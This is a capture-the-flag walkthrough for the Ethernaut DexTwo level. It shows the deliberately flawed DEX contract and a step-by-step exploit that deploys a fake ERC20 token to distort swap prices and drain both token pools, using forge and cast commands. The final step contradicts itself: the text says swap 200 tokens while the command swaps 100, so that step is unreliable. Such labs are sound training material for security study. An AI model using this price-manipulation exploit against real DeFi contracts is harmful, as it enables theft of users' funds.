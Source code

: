 ## Dex Level Outline

**Difficulty : 4/10**

This level will ask you to break DexTwo, a subtlely modified Dex contract from the previous level, in a different way.

You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract DexTwo  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_amount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_amount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(spender, amount);
    SwappableTokenTwo(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xd2BA82c4777a8d619144d32a2314ee620BC9E09c)

## Solution

The price is calculated based on the ratio of tokenA and tokenB. If we createa a malicious ERC20 token and add liquidity to the contract, we can control the exchange rate and drain all tokens.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";

contract MaliciousToken is ERC20 {
    constructor() ERC20("MaliciousToken", "MALTKN") {
        _mint(msg.sender, 1000000);
    }
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:MaliciousToken --private-key  $PRIVATE_KEY
```

##### 3. Approve the Dex contract to spend our tokens. We need to do this to add liquidity
```console
cast send $DEPLOYED_ADDRESS "approve(address,uint256)" $LEVEL_ADDRESS 200 --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

##### 4. Send 100 of our `MALTKN` to the dex so that the price ratio between `token1` and `MALTKN` is 1:1
```console
cast send $LEVEL_ADDRESS "add_liquidity(address,uint)" $DEPLOYED_ADDRESS 100 --gas 150000 \ 
--private-key $PRIVATE_KEY
```


##### 5. Let's get the addresses for `token1` and `token2`
 
```console
cast call $LEVEL_ADDRESS "token1()"

cast call $LEVEL_ADDRESS "token2()"
```

##### 6. Now that the exchange rate is 1:1, let's send swap 100 of our malicious token to `token1` to drain the dex's supply of `token1`.
 
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $DEPLOYED_ADDRESS $TOKEN1_ADDRESS 100 --gas 250000 \
--private-key $PRIVATE_KEY
```

##### 7. Now the total supply of `MALTKN` in the contract is 200, meaning that the ratio between `MALTKN` and `token2` will be 0.5:1 
 
to drain the supply of `token2` we need to swap 200 `MALTKN` for `token2`
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $DEPLOYED_ADDRESS $TOKEN2_ADDRESS 100 --gas 250000 \
--private-key $PRIVATE_KEY
```

### [:arrow_left: Back To Main Menu](../README.md)
